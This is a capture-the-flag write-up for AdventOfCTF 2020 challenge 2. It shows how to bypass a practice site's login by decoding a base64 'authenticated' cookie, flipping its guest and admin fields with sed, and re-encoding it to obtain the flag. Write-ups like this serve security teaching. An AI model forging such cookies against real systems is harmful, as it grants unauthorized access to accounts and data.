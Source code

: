 +++
author = "Maik de Kruif"
title = "Cookiemonster"
subtitle = "Challenge 2 - AdventOfCTF"
date = 2020-12-02T17:30:25+01:00
description = "A writeup for challenge 2 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/948b1eb046c96865a05808660ee99e10.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "cookies",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_2"
]
+++

- Points: 200

## Description

For the 2nd challenge you will need to bypass the login mechanism.

Visit <https://02.adventofctf.com> to start the challenge.

## Solution

When opening the website we're provided with a login form. If we fill in the form with random data, we're greeted with some text that says a guest cannot access the flag.

After trying several things, I opened the devtools to have a look at the cookies. Here we find a cookie with the name `authenticated`:

```cookie
authenticated=eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0%3D
```

The value of this cookie looks like a base64 encoded string so lets try to decode it:

_Note: in a url encoded string, the text `%3D` means a `=`._

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d
{"guest":"true","admin":"false"}%
```

The result is some JSON data which specifies whether we are a guest or an admin.

Normally, we can easily alter the string to say we're an admin, but this time there is some weird non-printable character at the end. This means we can't easily modify it while still having the correct response. To circumvent this, I'll use `sed` to replace the string while keeping the non-printable character:

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d | sed 's/"guest":"true"/"guest":"false"/g' | sed 's/"admin":"false"/"admin":"true"/g' | base64
eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0=
```

If we put this string back into the cookie and refresh the page we get the flag: `NOVI{cookies_are_bad_for_auth}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#2-3).
